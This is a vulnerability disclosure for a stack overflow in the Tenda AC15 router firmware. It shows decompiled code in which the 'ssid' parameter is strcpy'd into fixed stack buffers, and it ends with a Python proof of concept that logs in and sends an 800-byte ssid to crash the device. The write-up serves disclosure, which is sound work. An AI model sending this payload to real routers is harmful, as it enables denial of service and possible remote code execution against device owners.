 ## Tenda AC15 stack overflow vulnerability

### * Version

V15.03.05.19 (US_AC15V1.0BR_V15.03.05.19_multi_TD01.bin)

### * Firmware
[https://www.tenda.com.cn/download/detail-2680.html](https://www.tenda.com.cn/download/detail-2680.html)




### * Vulnerability Detail

In function form_fast_setting_wifi_set, the content obtained by the program from the parameter "ssid" is passed to local_20, 
and then the local_20 is directly copied into the acStack128 and acStack196 stack through the strcpy function.
There is no size check, so there is a stack overflow vulnerability. The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.


```c
undefined4 form_fast_setting_wifi_set(int param_1)

{
  undefined4 uVar1;
  size_t sVar2;
  int iVar3;
  undefined4 local_268;
  undefined4 local_264;
  undefined4 local_260;
  undefined4 local_25c;
  char acStack600 [4];
  char acStack596 [4];
  char acStack256 [64];
  char acStack192 [64];
  char acStack128 [64];
  undefined local_40 [12];
  undefined4 local_34;
  char *local_30;
  char *local_2c;
  char *local_28;
  char *local_24;
  char *local_20;
  int local_1c;
  int local_18;
  undefined4 local_14;
  ...
  local_34 = 0;
  memset(acStack128,0,0x40);
  memset(acStack192,0,0x40);
  memset(acStack256,0,0x40);
  local_14 = 1;
  ...
  local_20 = (char *)FUN_0002ba8c(param_1,"ssid",&DAT_000e378c);
  if (*local_20 == '\0') {
    printf("%s [%d] no ssid set, just return.\n","form_fast_setting_wifi_set",0x444);
    uVar1 = FUN_0002be4c(param_1,"login.html");
  }
  else {
    strcpy(acStack128,local_20);  // here is overflow
    strcpy(acStack192,local_20);  // here is overflow
    local_24 = (char *)FUN_0002ba8c(param_1,"wrlPassword",&DAT_000e378c);
    SetValue("wl2g.ssid0.ssid",acStack128);
    sVar2 = strlen(acStack192);
    memcpy(acStack192 + sVar2,&DAT_000e38b8,4);
    SetValue("wl5g.ssid0.ssid",acStack192);
    SetValue("wl2g_bss_ssid_old",acStack128);
    SetValue("wl5g_bss_ssid_old",acStack192);
    if (*local_24 == '\0') {
      SetValue("wl2g.ssid0.security",&DAT_000e3908);
      SetValue("wl5g.ssid0.security",&DAT_000e3908);
    }
    else {
      SetValue("wl2g.ssid0.security","wpapsk");
      SetValue("wl5g.ssid0.security","wpapsk");
      SetValue("wl2g.ssid0.wpapsk_psk",local_24);
      SetValue("wl5g.ssid0.wpapsk_psk",local_24);
    }
    SetValue("ali.reset.cfg",&DAT_000e34e4);
    memset(local_40,0,9);
    local_40[0] = 2;
    tpi_talk_to_kernel(9,local_40,&local_34,0,0,0);
    SetValue("fast.seting.red",&DAT_000e34e4);
    ...
}
```

### * POC
```python
import requests


cmd  = b'ssid=' + b'A' * 800


url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/fast_setting_wifi_set/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()

```
